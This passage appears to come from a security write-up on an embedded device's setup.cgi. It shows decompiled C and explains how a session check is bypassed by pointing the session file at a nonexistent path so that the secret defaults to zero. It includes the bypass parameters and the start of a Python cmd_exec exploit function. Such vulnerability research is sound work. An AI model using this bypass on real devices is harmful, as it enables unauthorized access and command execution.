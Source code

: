 The code tries to implement a session by asking the user to provide the secret integer via the `id` GET parameter. This is what `ReadSessionId` looks like:

```C
int __fastcall ReadSessionId(const char *Filename)
{
  FILE *Fd;
  int SessionId;

  SessionId = 0;
  Fd = fopen(Filename, "r");
  if ( !Fd )
    return SessionId;
  fscanf(Fd, "%x", &SessionId);
  fclose(Fd);
  return SessionId;
}
```

The logic is really simple: it opens the file path passed, reads an hexadecimal string into an integer which is called `SessionId` and returns it. The caller simply compares the value passed in `id=` to the value stored in the file. If the secret matches, then the code keeps going otherwise it sends a *forbidden* answer to the user.

Again, trivial to bypass: we can simply pass `sp=1337` which means that `ReadSessionId` will open `/tmp/SessionId1337` which won't exist on the device. This means that `fopen` will fail and return `SessionId` which has been initialized to zero. This is a known value and as a result we can simply pass `id=0` to have the two secrets match 🤦🏽‍♂️.

```python
def cmd_exec(target, cmd, silent = False):
    r = requests.post(
        f'http://{target}/setup.cgi?id=0&sp=1337foo=currentsetting.htm',
```

After bypassing the session checks, this is what the authentication check look like further down:

```C
int HandleSetupCgi()
{
  int List;
  const char *NextFile;
  const char *ActionName;

  List = cgi_input_parse();
  fflush(stdout);
  if ( check_need_logout(List) )
    return handle_logout(List);
```

`cgi_input_parse` basically parses the query string and creates a list of key / value items that is passed to various functions.

In `check_need_logout` we can see the `NEED_AUTH` variable mentioned earlier:

```C
bool __fastcall check_need_logout(int List)
{
  // ...
  LoginIp = getenv("LOGIN_IP");
  NeedAuth = getenv("NEED_AUTH");
  // ...
  if ( NeedAuth )
  {
    Return = 0;
    if ( *NeedAuth == '0' )
      return Return;
  }
 //...
```